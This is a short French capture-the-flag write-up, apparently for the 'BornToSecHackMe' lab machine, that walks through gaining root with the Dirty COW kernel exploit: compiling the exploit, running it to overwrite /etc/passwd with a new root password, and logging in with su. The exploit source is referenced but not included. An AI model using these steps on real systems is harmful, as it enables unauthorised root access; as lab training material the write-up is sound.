 #### I - Se connecter en SSH
- Suivre le writeup1 jusqu'a l'etape Laurie SSH

----

#### II - Creer le script

``nano dirtycow.c`
- Copier coller le code present dans /scripts/dirtycow

- Compiler l'exploit
``gcc dirtycow.c -lpthread -lcrypt``

----

#### III - Lancer le script

- Lancer l'exploit
``./a.out``

>/etc/passwd successfully backed up to /tmp/passwd.bak
>Please enter the new password: (**SAISIR LE NOUVEAU MDP ICI**)
>Complete line:
>root:XXXXXXXXX:pwned:/root:/bin/bash **(ou XXXXXXXXX est la version cryptee du mdp choisi)**
>mmap: b7fda000
>madvise 0
>ptrace 0
>Done! Check /etc/passwd to see if the new user was created.
>You can log in with the username 'root' and the password 'XXXXXXXXX'. **(ou XXXXXXXXX est le mdp choisi)**
>DON'T FORGET TO RESTORE! \$ mv /tmp/passwd.bak /etc/passwd
>Done! Check /etc/passwd to see if the new user was created.
>You can log in with the username 'root' and the password 'XXXXXXXXX'. **(ou XXXXXXXXX est le mdp choisi)**
>DON'T FORGET TO RESTORE! \$ mv /tmp/passwd.bak /etc/passwd

----

#### IV - Se connecter en root

``su root``
>Password:
>root@BornToSecHackMe:/home/zaz#
